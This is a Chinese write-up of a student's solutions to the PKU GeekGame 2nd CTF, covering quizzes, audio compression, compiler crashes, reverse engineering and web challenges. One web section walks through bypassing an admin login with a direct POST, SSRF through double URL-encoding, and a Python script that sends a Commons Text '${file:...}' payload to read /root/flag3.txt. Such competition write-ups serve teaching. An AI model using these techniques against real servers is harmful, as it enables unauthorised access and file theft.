




# GeekGame 2nd Writeup

> 第一次打CTF类比赛，Waku Waku

## †签到†

即使没有看过第一届的签到题，也一眼就认出来了符号是特殊字体。但当我用Adobe Acrobat打开PDF，试着复制这些符号时，问题出现了：我复制选项呢？


点击编辑文本，发现pdf被加密，无法编辑。导出成Word等也需要密码。于是，我被签到题卡了！第一次参加CTF的萌新受到了极大的信心打击。

做出了后面的三题后，我看了一眼榜，发现大家都没有卡签到题，所以问题一定不在题而在我。于是我在Chrome里打开了PDF，发现Chrome里也没有办法复制，但竟然可以搜索：



点击百度搜索后，从搜索框里复制出来两行文字：

```
fa{hns4PaigGeGm!
lgTak__lyn_ekae}
```

利用栅栏加密（也就是上下交替读）即可还原出flag

## 小北问答 · 极速版

由于签到题卡了，此题光荣成为了我人生中做出的第一道CTF题。本题看起来主要考察搜索引擎使用。

### 题目解析

> 支持 WebP 图片格式的最早 Firefox 版本是多少？


答案：65

> 访问网址 `http://ctf.世界一流大学.com`时，向该主机发送的 HTTP 请求中 Host 请求头的值是什么？

在Chrome中按下F12，选择网络选项卡，即可查看到HTTP请求的日志。


不难发现，访问了远程主机`ctf.xn--4gqwbu44czhc7w9a66k.com`，再由此主机重定向到了比赛主页。

可是什么是HTTP请求中的Host请求头呢？萌新不知道，萌新按照主机名理解，萌新答案正确了

> 北京大学某实验室曾开发了一个叫 gStore 的数据库软件。最早描述该软件的论文的 DOI 编号是多少

使用谷歌学术搜索


下面两个带`-`的排除，上面两个中，点击时间较早的2011年的论文



虽然不知道什么是DOI编号，但这个页面里可以看到DOI的字样。试了一下`doi.org`后面的`10.14778/2002974.2002976`，发现果然答案正确

> 每个 Android 软件都有唯一的包名。北京大学课外锻炼使用的最新版 PKU Runner 软件的包名是什么？

按照Java的包命名规则，试了一下`cn.pku.edu.pkurunner`，竟然直接对了

> 在第一届 PKU GeekGame 比赛的题目《电子游戏概论》中，通过第 %d 级关卡需要多少金钱？

通过主办方提供的链接，我们可以找到这道题的代码仓库地址：`https://github.com/PKU-GeekGame/geekgame-1st/blob/master/src/pygame/`

在每个文件里搜索level，在`game/server/libtreasure.py`中找到了以下代码：

```python
GOAL_OF_LEVEL = lambda level: 300+int(level**1.5)*100
```

根据该式计算出结果，经验证，正确

> 视频 bilibili.com/video/BV1EV411s7vu 也可以通过 `bilibili.com/video/av_____` 访问。下划线内应填什么数字？


利用搜索到的网页工具转换即可得到答案`418645518`

> 我有一个朋友在美国，他无线路由器的 MAC 地址是 d2:94:35:21:42:43。请问他所在地的邮编是多少？

搜了一下制造商，没有任何头绪，放弃。还好这道题不一定被随机出来

> 我刚刚在脑海中想了一个介于 %d 到 %d 之间的质数。猜猜它是多少？

范围不大，约130，枚举所有整数并用根号复杂度判断即可。得到的质数不止一个，萌新感到很疑惑，但有时候回答最小的那个可以答案正确，那就这样吧（看了第二阶段提示，我才知道这是正常现象）

### 及格摆烂

上面的8题中，有6道题可以稳定做对，这样就已经拿到了6*14=84分~~（喜提正态）~~

### 满分卷王

在3秒内答对7道题目，显然需要自动化工具。在长达1小时的`pwntools`学习后，我意识到，在输入`急急急`前，前半行的`>`无法通过`recvline`读取。解决方法是：

```python
conn = remote('prob01.geekgame.pku.edu.cn',10001,typ='tcp')
conn.send(myToken)
conn.recvuntil(b'> ')
```

其他交互输出都是整行，可以使用`recvline`获取。从获取的行中选取含有题面的行，由关键字判断是哪道题目，由正则表达式`\d`匹配出题目中含有的数字，即可自动化做题。很幸运地，我用了2次就得到了满分。第二阶段中，我知道了在不会做MAC题时，每次尝试通过概率仅为1/72（~~所以说，我🐶了？~~）

至此，我做出了人生中第一道CTF题，成为了一名成熟的CTF做题家，因此后面将不再用萌新自称。

## 我用108天录了个音

> 年轻人的第一个一血

由于打算认真写一下做法，我决定把这题放在靠前的位置

### 音源

录音难免会由于气流和线缆产生噪音，在极低码率场景这些噪音下可能对信噪比产生较大影响，因此选择语音合成才是正道。题面上的**大声背诵**四个字让我更加确信了这一点。

想到文字转语音，首先想到的就是集成在Windows讲述人。讲述人服务所使用的语音合成引擎是`Microsoft Huihui Desktop`。在Adobe Audition中，也提供了调用该合成程序的选项。然而，该引擎的合成效果令人一言难尽，语速较快时生成的语音稳定被识别成“科技并带着俱味”、“我觉得这太困了”。经过人工评测，我觉得识别效果差的原因很可能在于其连词成句时没有任何语调修正，使得语音识别服务难以通过语调判断句子成分。

本地自带的语音合成不行，于是我开始寻找在线服务。既然识别用的是腾讯云，那我们就用腾讯云的语音合成，形成一个**生态闭环**，岂不美哉？


于是，我含泪激活了有效期仅3个月的腾讯云语音合成免费额度。不得不说，腾讯云合成的中文语音合成结果爆杀微软的`Huihui Desktop`。我选择了智靖（精品）音色，设置语速为2，合成了所需的五句话的wav文件。这里有一个坑是生成的wav文件具有16000Hz的采样率。我通过Adobe Audition，将这五个wav文件转化为8000Hz。

静音段就简单了，使用Adobe Audition的编辑-插入-静音，即可生成任意长度的静音音频。我生成了一个9.77s的静音段。静音段时间设置较短有两方面的考虑：一是单句录音开头可能有空白时长；二是阅读源码可以发现，“每句话之间的间隔”定义为是上一句的最后一个词的**开始**时间，与本句话第一个词的**开始**时间的时间差，因此每句话的最后一个词会被计入静音时间。

### 格式初筛

支持的文件格式共有`wav, pcm, ogg, mp3, m4a, aac`六种。首先排除完全无压缩的`wav`和`pcm`格式，其次排除过于古老而在低码率下效果奇差的`mp3`。`aac`是`MPEG-2`标准，`m4a`是`MPEG-4`标准（编码还是叫AAC，但是文件容器有所更新），`ogg`是一个开源标准。`aac`和`ogg`均支持低至2kbit/s以下的码率（Bitrate）。因此，我决定分别尝试这两种文件格式。

`ogg`格式选用最新最热的编码opus，编码器选择官方的[opus-tools](https://archive.mozilla.org/pub/opus/win32/opus-tools-0.2-opus-1.3.1.zip)。

`aac`有很多编码，也有很多编码器，看得我眼花缭乱，于是我随手挑了一个大家都说好的开源编码器`ffmpeg`。

### 压缩

#### OGG

根据[Opus官网](https://www.opus-codec.org/)，Opus支持的码率最低可达6kb/s。我尝试了进行码率6kb/s以下的编码，发现虽然不会报错，但会带来不可忍受的音质锐减，因此有声段只能选择6kb/s。

```bash
opusenc --bitrate 6 --speech --comp 10 --framesize 60 vocal.wav --hard-cbr vocal.ogg
```

当然，静音段并不需要担心音质的问题。我找到了`opus-tools`的[代码](https://github.com/xiph/opus-tools/blob/master/src/opusenc.c#L957)，发现可输入的最低码率为500b/s。静音段的码率设置为500b/s就好。

```bash
opusenc --bitrate 0.5 --comp 10 --framesize 60 silence.wav --hard-cbr silence.ogg
```

#### ACC/M4A

至于AAC和M4A，维基百科说到：

> The [MPEG-4](https://en.wikipedia.org/wiki/MPEG-4) audio coding algorithm family spans the range from low bit rate speech encoding (down to 2 kbit/s) to high-quality audio coding (at 64 kbit/s per channel and higher).

因此我设置有声段码率为2kb/s，静音段同样选择0.5kb/s

```bash
ffmpeg -i vocal.wav -b:a 2000 -ar 8000 vocal.aac -y
ffmpeg -i silence.wav -b:a 500 -ar 8000 silence.aac -y
```

### 拼接

`ffmpeg`提供了将不同码率的音频拼接的功能，以OGG文件为例：

```bash
ffmpeg -f concat -i inputs.txt -c copy -ar 8000 out.ogg -y
```

作为上述命令参数的`inputs.txt`中，列出了要拼接的音频文件

```
file 'he1.ogg'
file 'silence.ogg'
file 'he2.ogg'
file 'silence.ogg'
file 'he3.ogg'
file 'silence.ogg'
file 'he4.ogg'
file 'silence.ogg'
file 'he5.ogg'
```

其他文件格式的拼接，只需要修改上面所有的文件拓展名即可

可能有读者会好奇：把音频文件以字节数组形式暴力拼起来不就行了吗？事实上，每个文件中都存在着**音频流**的元数据，暴力拼接会使得这些元数据被重复9次，造成空间上的浪费。

### 加速！

对同样的wav输入音频，三种文件格式的压制参数和结果如下

| 文件格式 | 静音段码率(kb/s) | 有声段码率(kb/s) | 编码软件   | 大小(B) |
| -------- | ---------------- | ---------------- | ---------- | ------- |
| OGG      | 0.5              | 6                | opus-tools | 8245    |
| AAC      | 0.5              | 2                | ffmpeg     | 10443   |
| M4A      | 0.5              | 2                | ffmpeg     | 10353   |

可以看到，`ogg`在高码率下压出的文件大小反而更小，空间利用率优秀。然而，8245B仍然超过了（第一阶段的）大小限制。

对此，我打开了Adobe Audition，效果-时间与变调-伸缩与变调（处理），将所有有声段的时间都压缩到了80%。


加速后，OGG文件的大小变成了7390字节。我连忙交上去，结果第二句被识别成了“都觉得这很酷吗”。

不得已，我将第二句的伸缩操作撤销，重试了一次。这次大小是7528字节，并且能识别出来了。于是我们获得了Flag1。

### 30s

在第一阶段，我发现AAC文件在使用`ffprobe`查看信息时，输出的音频时长会与实际时长不符。然而，不论我怎么更换参数，输出的时长都只会比实际更长，而非更短。

第二阶段获得了提示以后，我才意识到上面提到的“把音频文件以字节数组形式暴力拼起来”并非完全没用。事实上，使用`ffmpeg -f concat`得到两个不超过30s的音频文件：`科技并带着趣味 静音 不觉得这很酷吗 静音`与`作为一名理工男 静音 我觉得这太酷了 静音 很符合我对未来生活的想象`，再暴力拼接即可获得一个`ffprobe`认为时长不足30s的，大小为7620B的OGG文件，从而获得Flag2。

我为什么之前没发现呢？是因为我在上传之前都会自己听一下效果，而用上述做法得到的OGG文件，在我本地的**所有**音乐播放器中，都只能放出来前两段。于是，我放弃了上传，与满血版的两吨重奖章失之交臂。我的评价是，不是`ffprobe`有问题，而是腾讯云的识别太神奇。

## 编原译理习题课

### 玩挺大

与后两者不同，输出大程序**属于正常使用**。我们来回顾一下计算机系统导论：



编译出的程序就是如图所示的ELF文件。其中`.data`段是已初始化的全局变量，会被完整地存储在程序中；`.bss`段是没有初始化的全局变量，仅记录大小，不实际占据空间，运行时才被加载为全0的内存段。因此我们想要让程序很大，只需要将一个很大的全局变量存到`.data`段即可。

```cpp
char s[9000000]="My guiding star";
int main(){}
```

编译上面的代码时，占用了约9MB的`s`数组被赋予了初始值，因此会被完整放置在`.data`段。这样我们就得到了大小符合要求的程序。

### 玩挺长

Google搜索`g++ huge error log`，查看结果第一条https://stackoverflow.com/questions/54004610/why-does-g-generate-huge-error-log。其中的代码可以生成203KB的error log。楼主指出：

> By repeating `(x` many times, the error log can grow into >1GB

按照上述提示，构造以下程序即可达到要求~~（虽然我完全不知道原理）~~：

```c++
int main()
{
    struct x struct z<x(x(x(x(x(x(x(x(x(x(x(x(y,x(y><y*,x(y*w>v<y*,w,x{};
    return 0;
}
```

### 玩挺花

Google搜索`g++ crash`，查看结果第一条https://gcc.gnu.org/bugzilla/show_bug.cgi?id=54080。其中的代码可以令g++崩溃~~（我同样不知道原理）~~

## 编原译理习题课 · 实验班

虽然我在第二阶段才解出了这道题目的Flag1，但由于同样通过搜索引擎写出了自己不理解的代码，我把它放在g++题的后面。

由于我不会Rust，写出一个能被平台接受的程序浪费了我一些时间。直到现在，我也不明白，为什么我们的代码不应该写在`fn main()`函数中，而是写在`pub fn run()`中。

理解了如何让平台运行自己的代码后，根据[CVE List](https://github.com/Qwaz/rust-cve)选取一个尚未被解决的[Unsound漏洞](https://github.com/rust-lang/rust/issues/85873)即可造成段错误。

```rust
#![forbid(unsafe_code)]
use std::{iter::Zip, marker::PhantomData, vec};

struct MyStruct<T>(PhantomData<T>);
impl<T> Clone for MyStruct<T> {
    fn clone(&self) -> Self {
        Self(PhantomData)
    }
}
impl Copy for MyStruct<fn(&())> {}

#[allow(clippy::type_complexity)]
pub fn run() {
    let i: vec::IntoIter<MyStruct<fn(&())>> = vec![MyStruct::<fn(&())>(PhantomData)].into_iter();
    let mut y = [Some(&42)];
    let mut z = i.zip(y.iter_mut());
    let r1 = z.next().unwrap().1;
    let mut z: Zip<vec::IntoIter<MyStruct<fn(&'static ())>>, _> = z;
    let r2 = z.next().unwrap().1;
    let elt = r1.as_ref().unwrap();
    dbg!(elt);
    *r2 = None;
    dbg!(elt);
}
```

## 方程组

### Flag1

把方程组格式整理一下，丢到网页版在线解方程，再四舍五入取整一下解向量即可得到



### Flag2

变元为整数，变元的线性组合得出的值，与给出的值误差在一定范围内。这令我想到了**整数线性规划**问题

我调查到python的`pulp`包可以解决整数线性规划问题。然而，该包的运算使用了float类型，与高精度的Decimal进行加减运算会出问题。为了使它支持Decimal，我修改了它的源码，把所有float替换为Decimal。

之后，构造一个整数线性规划问题，即可得到flag2，代码已附在`equation`目录.

## Flag Checker

将下载的jar文件复制到一个`Intellij IDEA`项目中，右键作为库导入，即可完成对jar的反编译。

### Flag1

分析`actionPerformed`函数得如下数据关系
$flag1 \rarr utf8encode\rarr base64encode \rarr rot13 \rarr $ "MzkuM8gmZJ6jZJHgnaMuqy4lMKM4^"

经分析，`rot13`做两次即可恢复原状，因此我们逆着上面的变换链，通过以下代码来恢复flag1

```java
static String getFlag1() {
    final byte[] var2 = Base64.getDecoder().decode(rot13("MzkuM8gmZJ6jZJHgnaMuqy4lMKM4"));
    return new String(var2);
}
```

### Flag2

检查Flag2时实质上执行了`this.invocable.invokeFunction("checkflag2", input)`

查看构造函数，发现`this.invocable`被赋值为了一个`ScriptEngine`对象。该`ScriptEngine`通过`new ScriptEngineManager().getEngineByName("nashorn")`获得。经过搜索，发现这是一个在Java环境下执行JS脚本的引擎。

`ScriptEngine`中填充的脚本由以下代码生成：

```java
String var4 = "（这里有一个字符串，但太长了，不粘了）";
StringBuilder var8 = new StringBuilder();

for(int var9 = 0; var9 < var4.length(); ++var9) {
    var8.append((char)(var4.charAt(var9) ^ 239));
}

var3.eval(var8.toString());
```

我们复制下这段代码，输出`var8.toString()`，即可得到脚本源码

```javascript
function checkflag2(_0xa83ex2){var _0x724b=['charCodeAt','map','','split','stringify','Correct','Wrong','j-'];return (JSON[_0x724b[4]](_0xa83ex2[_0x724b[3]](_0x724b[2])[_0x724b[1]](function(_0xa83ex3){return _0xa83ex3[_0x724b[0]](0)}))== JSON[_0x724b[4]]([0,15,16,17,30,105,16,31,16,67,3,33,5,60,4,106,6,41,0,1,67,3,16,4,6,33,232][_0x724b[1]](function(_0xa83ex3){return (checkflag2+ _0x724b[2])[_0x724b[0]](_0xa83ex3)}))?_0x724b[5]:_0x724b[6])}
```

这实在太丑了，我们把数组`_0x724b`做一下inline，再分一下行：

```js
function checkflag2(flag_json){
    return (
        JSON['stringify'](
            flag_json['split']('')['map'](
                function(x){
                    return x['charCodeAt'](0)
                }
            )
        ) == JSON['stringify'](
            [0,15,16,17,30,105,16,31,16,67,3,33,5,60,4,106,6,41,0,1,67,3,16,4,6,33,232]['map'](
                function(x) {
                    return (checkflag2+ '')['charCodeAt'](x)
                }
            )
        )?'Correct':'Wrong'
    )
}
```

`==`两边都是字节数组，左边由输入的flag直接编码得到，因此将右边的结果编码为字符串即可得到flag2。我们把等号右边的代码丢到浏览器里执行一下，即可得到`[102,108,97,103,123,106,97,118,97,115,99,114,105,112,116,45,111,98,102,117,115,99,97,116,111,114,125]`，进而得到flag

## 智慧检测器

一开始以为bug在GeekGame新写的代码中，没想到他们是真的在修原有的bug。

### 穿墙bug

在源码的第422行，进行了一个Python高危操作：将一个数组变量赋值给另一个数组变量。这样赋值会造成两个变量名指向同一个数组。

```python
CurPos = NewPos # line 422
```

在385行，`NewPos = list(CurPos)`会将`NewPos`指向一个新建的数组。然而，该操作对于每行输入仅执行一次，而每行输入中可以走多步。在一步走完之后，处理下一步时，`CurPos`和`NewPos`指向了同一个数组，对`NewPos`的任何修改都会反应到`CurPos`上。

而我们注意到，代码390~401行中，没有做任何检查地修改了`NewPos`

```python
elif NewDirection == "N": # line 390
    NewPos[1] -= 1
elif NewDirection == "S":
    NewPos[1] += 1
elif NewDirection == "W":
    NewPos[2] -= 1
elif NewDirection == "E":
    NewPos[2] += 1
elif NewDirection == "U":
    NewPos[0] += 1
```

因此，当`CurPos`和`NewPos`指向同一数组时，即使移动后的`NewPos`被判定为非法位置，390~401行也已经使得`CurPos`被设置到该非法位置。利用该漏洞，我们可以每次输入两个操作，一个合法移动使得422行被执行，接上一个非法但实际会生效的移动。

### 破坏者

利用非法移动，我们可以使当前位置的Z轴坐标大于层数，从而触发`IndexError`。最快触发方法是在第一关中，任意选择一个可走的方向，并加上一个U

### 调停者

非法移动的一个特性是不会消耗步数。所以99回合相当于可以进行198次移动，这些移动次数理论上足够从底层走到最高层，从出发边走到终点边。

考虑到竖直方向移动步数较多且正常移动的机会较少。我们优先利用非法操作向上走。前置的合法操作则优先选择走向对边的水平移动。

由于手玩时经常肌肉记忆不小心爬太多层，我选择使用`pwntools`自动走到最后一层，在最后一层水平移动时再手操。相关代码已附带在`maze`目录

## 企鹅文档

利用F12开发者工具，我在以下两个请求中得到了所有被隐藏的单元格的内容。

- https://docs.qq.com/dop-api/opendoc?tab=BB08J2&u=&noEscape=1&enableSmartsheetSplit=1&id=DV1lsUFRhQlp5eWtq&normal=1&outformat=1&startrow=0&endrow=60&wb=1&nowb=0&callback=clientVarsCallback&xsrf=de5a91f9324a7e98&t=1668924421378
- https://docs.qq.com/dop-api/get/sheet?padId=300000000%24WYlPTaBZyykj&subId=BB08J2&startrow=61&endrow=72&xsrf=de5a91f9324a7e98&_r=0.7895828440930863&outformat=1&normal=1&preview_token=&nowb=1&enableSmartsheetSplit=1&rev=23

将隐藏单元格拼起来可以得到一个链接。访问链接可以下载到`challenge.har`

将`challenge.har`用文本编辑器打开，搜索"Below is your flag"，可以发现一个json

```json
{
	"0": {
		"0": 5,
		"2": [
			1,
			"Below is your flag"
		],
		"3": 0
	},
	"24": {
		"0": 1,
		"3": 1
	},
	"25": {
		"0": 1,
		"3": 1
	},
	...
}
```

与提示中的涂黑单元格对比，发现每个被涂黑的单元格都有对应的键，单元格的行号列号与键的关系为`key = row * 11 + col`。比如"25"对应的就是第2行第3列的格子。

提取上述`json`，用下面代码可以画出flag

```
import json
with open("challenge.json") as fj:
	data = json.load(fj)
for i in range(222):
	for j in range(11):
		x = i * 11 + j
		if str(x) in data:
			print("*",end="")
		else:
			print(" ",end="")
	print()
```

## 企业级理解

### 赋能管理后台

根据第二阶段提示，访问`https://prob08-xxxxxxxx.geekgame.pku.edu.cn/admin/`即可进入管理后台。F12查看该网页的代码，发现点击按钮会向`admin/query`发送POST请求。但直接在浏览器点击时，会被Spring Security拦截并重定向到登录界面。使用Python构造POST请求，发送到`https://prob08-xxxxxxxx.geekgame.pku.edu.cn/admin/query/`，即可绕过拦截。

分别尝试在Post Data的Type中填入`PKU`,`PKUGame`和`PKU_GeekGame`，在`PKU_GeekGame`的响应中找到了flag1

```html
<!DOCTYPE html>\n<html lang="en">\n
<head>\n
	<meta charset="utf-8">\n
	<meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">\n
	<meta name="description" content="">\n
	<meta name="author" content="">\n <title>Admin</title>\n
	<link href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0-beta/css/bootstrap.min.css" rel="stylesheet"
		crossorigin="anonymous">\n
	<link href="https://getbootstrap.com/docs/4.0/examples/signin/signin.css" rel="stylesheet"
		crossorigin="anonymous" />\n
</head>\n

<body>\n<div class="container">\n <form class="form-signin" method="post" action="/admin/query">\n <h2
				class="form-signin-heading">PKU GeekGame 2.0</h2>\n <p>\n <select name="type"
					class="custom-select d-block w-100" placeholder="\xe8\xaf\xb7\xe9\x80\x89\xe6\x8b\xa9" required
					autofocus>\n <option value="none" selected disabled hidden>
						\xe8\xaf\xb7\xe9\x80\x89\xe6\x8b\xa9\xe9\x80\x89\xe9\xa1\xb9</option>\n <option value="PKU"
						name="type">PKU</option>\n <option value="PKUGame" name="type">PKUGame</option>\n <option
						value="PKU_GeekGame" name="type" selected="selected">PKU_GeekGame</option>
					</option>\n </select>\n </p>\n <p>\n <label for="value" class="sr-only">Value</label>\n <input
					type="text" id="value" class="form-control" placeholder="Value" required autofocus name="value"
					value="{&quot;type&quot;:&quot;PKU_GeekGame&quot;,&quot;value&quot;:&quot;flag1{8a97cd0b-adec-4e63-bd46-3e6c60ea9d78} \xe6\x81\xad\xe5\x96\x9c\xe4\xbd\xa0\xe5\x8f\x91\xe7\x8e\xb0flag1\xef\xbc\x8c\xe8\xbf\x98\xe6\x9c\x89\xe5\x85\xb6\xe4\xbb\x96flag\xe7\xad\x89\xe5\xbe\x85\xe4\xbd\xa0\xe5\x8f\x91\xe7\x8e\xb0\xe5\x93\xa6&quot;}">\n
			</p>\n <button class="btn btn-lg btn-primary btn-block" type="submit">Click</button>\n </form>\n
		<!--  <p> Source Code Backup: /admin/source_bak </p>-->\n
	</div>\n</body>\n
</html>
```

### 盘活业务增长

访问`https://prob08-xxxxxxxx.geekgame.pku.edu.cn/admin/source_bak/`即可获得`/admin`后端的源码

```java
import org.springframework.web.reactive.function.client.WebClient;

@RestController
public class AdminController {
	WebClient webClient = WebClient.builder().baseUrl("http://localhost:8079/").build();

	@RequestMapping("/admin/{index}")
	public String adminIndex(@PathVariable(name = "index") String index, String auth, QueryBean queryBean) {
		if (index != null & index.contains("%")) {
			index = URLDecoder.decode(index, "UTF-8");
		}
		if (queryBean.getType() == null) {
			queryBean.setType("PKU");
		}
		if (!typeList.contains(queryBean.getType())) {
			typeList.add(queryBean.getType());
		}
		Mono str = webClient.post().uri(index).header(HttpHeaders.AUTHORIZATION, auth)
				.body(BodyInserters.fromFormData("type", queryBean.getType())).retrieve().bodyToMono(String.class);
		return queryBean.setValue(str.block());
	}
}
```

发现在`/admin/`后面加上一串不含`/`的字符串，即可以`http://localhost:8079/`为`baseUrl`访问该字符串对应的地址。根据提示，我们需要访问bonus服务，因此在浏览器中访问`https://prob08-xxxxxxxx.geekgame.pku.edu.cn/admin/localhost:8080`

可以看到一条信息：

```
Endpoints:
/bonus
/source_bak
```

看来我们需要访问`localhost:8080/bonus`和`localhost:8080/source_bak`。但是这里加上斜杠的话，请求就无法被`AdminController`匹配到。注意到后端代码中使用了`URLDecoder`，我们只需要将`localhost:8080%2fbonus`传入即可。`%2f`会在浏览器中被解码，因此我们对百分号再进行一次编码，确保后端收到的字符串中含有百分号。浏览器访问`https://prob08-xxxxxxxx.geekgame.pku.edu.cn/admin/localhost:8080%252fbonus`，得到以下信息：

```
{"type":"Bonus","value":"flag2{f2d9cc00-180b-404d-8117-d2e712c2e57b} 恭喜你发现flag2，还有其他flag等待你发现哦"}
```

### 打通整个系统

用获得flag2的方法访问`https://prob08-xxxxxxxx.geekgame.pku.edu.cn/admin/localhost:8080%252fsource_bak`，可以得到`/bonus`的后端代码

```java
import org.apache.commons.text.StringSubstitutor;

@RestControllerpublic
class BonusController {
	@RequestMapping("/bonus")
	public QueryBean bonus(QueryBean queryBean) {
		if (queryBean.getType().equals("CommonsText")) {
			StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
			interpolator.setEnableSubstitutionInVariables(true);
			String value = replaceUnSafeWord(queryBean.getValue());
			String resultValue = interpolator.replace(value);
			queryBean.setValue(resultValue);
		} else {
			// flag3藏在/root/flag3.txt等待你发现
		}
		return queryBean;
	}
    // Leo_h：这里还有一段删除恶意脚本的代码，但我完全没有必要绕过它，就不粘过来了
}
```

虽然没有提供`QueryBean`类的定义，但可以看到它有`getType`和`getValue`两个方法。结合管理后台的表单项，可以猜测出这就是我们POST的表单。

根据`CVE-2022-42889`，我们发现`commons.text.StringSubstitutor`是好东西。我查了一下它的用法，发现它具有读文件的功能。

因此，将POST Data的`value`设置为`${file:utf-8:/root/flag3.txt}`即可读取到flag3

```python
import requests
index = "localhost:8080%252fbonus"
url = f"https://prob08-xxxxxxxx.geekgame.pku.edu.cn/admin/{index}/"
rce = "${file:utf-8:/root/flag3.txt}"
resp = requests.post(url,data={"type":"CommonsText","value":rce})
print(resp.content.decode("utf-8"))
```

~~咦，我好像根本没用到CVE-2022-42889啊~~

## 这也能卷-Flag1

在网页环境中按F12，选择源代码标签，查看`main.js`的代码，发现判断会员是通过`localStorage.getItem('i_am_premium_user') === 'true'`实现的

在网页控制台中输入`localStorage.setItem('i_am_premium_user','true')`即可成为会员，此时访问Premium界面即可获得flag1

## 381654729

搜索并按位剪枝，按解码后是否能得到ASCII字符串筛选

```python
def search(clen,val):
	bt = (val ^ 2511413510787461249559068661325070136171729934109381260690).to_bytes(24,"big")
	if len(set(bt)-set(range(127))) <= 0:
		print(bt)
		exit()
	if clen > 48:
		return
	for cur in range(16):
		ftr = 16 * val + cur
		if ftr % clen == 0:
			search(clen+1,ftr)
search(1,0)
```

理论上限定前5位为`flag{`可以剪掉更多的枝，但在我完成这个优化之前，上面的代码已经跑完了。

## 乱码还原

### 观察

首先打印了一下佛语中字符的UTF-8编码值，发现一个特点：所有字符都由3个字节编码。因此根据UTF-8标准，所有字符的编码的前四个bit都是1110。

想到可以利用这一特点，在丢失了部分字节的字节数组中，锚定每个佛语字符的起始位置。

由于`shift-jis`编码中每个字符为1~2字节，丢失字节x的情况只有以下两种：

- 字节x既不能解码成`shift-jis`中的单字节字符，又不能作为双字节字符的第一个字节
- 字节x被当做`shift-jis`中的双字节字符的第一个字节，但后面跟着的字节y无法与它组成一个有效的双字节字符xy

因此，若佛语字符的UTF-8编码的第一个字节会丢失，则对该字符UTF-8编码的前两个字节解码为`shift-jis`，一定能复现丢失的情况。经过验证，除了“：”外，所有佛语字符都没有出现上述情况：

```python
possibleUTF8Chars = TUDOU + BYTEMARK + ["："]
for c in possibleUTF8Chars:
    if len(c.encode("utf-8")[:2].decode("shift-jis",errors="ignore").encode("shift-jis")) < 2:
        print(c)
# result:
# ：
```

### 还原佛语

注意到使用了CBC分组编码，我们可以每次枚举一个分组对应的所有可能的子佛语串，将它们分别与**已确定的前缀佛语串**拼接，进行解密，筛选出解密后所有字符都是ASCII的，加入到**已确定的前缀佛语串**。

